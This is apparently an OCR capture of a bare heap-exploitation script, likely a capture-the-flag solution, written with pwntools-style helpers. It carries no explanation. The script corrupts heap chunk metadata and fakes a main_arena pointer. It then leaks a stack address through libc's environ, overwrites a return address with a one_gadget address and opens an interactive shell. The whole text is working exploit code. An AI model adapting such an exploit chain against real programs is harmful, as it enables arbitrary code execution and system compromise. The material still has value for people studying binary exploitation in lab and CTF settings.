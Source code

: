 	#dbg()
	
	free(1)

	add(0x10) #1
	add(0xf0) #2
	add(0x10) #3
	add(0x100,'a'*0x100) #4
	
	#dbg()
	
	free(1)
	
	#dbg()
	
	target = heapbase+0x20-0x602070
	add(0x18,b'a'*0x10+p64(target)) #1
	
	
	free(2)
	
	#dbg()
	
	edit(4,b'a'*0x30+p64(0)+p64(0x101)+p64(main_arena_88)*2)
	
	#dbg()
	
	add(0xf0,b'a'*0xc0+p64(0x100)+p64(environ)+p64(0x100)+p64(0x602148))
	ru('INDEX: 1')
	ru('CONTENT: ')
	stack= u64(ru('\n')[:-1].ljust(8,b'\x00'))
	target =  -0xF0 + stack 
	lg('stack',stack)
	lg('target',target)
	#0x7f825ab56f38 <environ>:	0x00007ffe282d8c28	0x0000000000000000
	#00:0000│  0x7ffe282d8b38 —▸ 0x7f825a7b0830 (__libc_start_main+240) ◂— mov    edi, eax
	#  0x7ffe282d8b38-0x00007ffe282d8c28=-0xF0
	#dbg()
	
	edit(2,p64(target))
	one_gadget = [0x45216,0x4526a,0xf02a4,0xf1147]
	shell = one_gadget[0] + libcbase
	edit(1,p64(shell))
	exit()
	 
	itr()

 